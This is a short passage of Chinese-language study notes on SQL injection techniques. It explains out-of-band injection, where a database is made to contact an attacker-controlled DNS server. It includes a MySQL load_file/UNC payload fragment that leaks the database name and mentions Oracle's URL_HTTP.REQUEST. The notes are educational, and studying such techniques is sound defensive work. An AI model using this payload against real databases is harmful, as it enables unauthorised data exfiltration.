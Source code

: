 * 又是报错的内容过长有省略号，可以采用left、right、substr等函数获取完整内容

#### OOB注入

* 基本原理：OOB即使Out-Of-Band 带外通道技术，用于攻击者通过另一种方式确认和利用没有直接回显的漏洞。一次成功的OOB攻击基于 有漏洞的系统 和 外围防火墙的出站策略。对于SQL注入无法进行SQl盲注时，可以让数据库向我们所控制的服务器（例如DNS服务器）发起请求，我们通过查看服务器上的请求记录，来判断是否注入成功。    例如，使用mysql中的load_file(concat("\\\\\\",(select database()),".UNC地址"))携带敏感信息发起对某个unc地址的请求。UNC路径只有Windows下有，所以在linux下无法获取数据。
  
  Oracle下有函数URL_HTTP.REQUEST进行带外注入。

* 实例：

* 总结：几个常见的报错语句

![image-20230806164821649](.\images\image-20230806164821649.png)

![image-20230806164925146](.\images\image-20230806164925146.png)
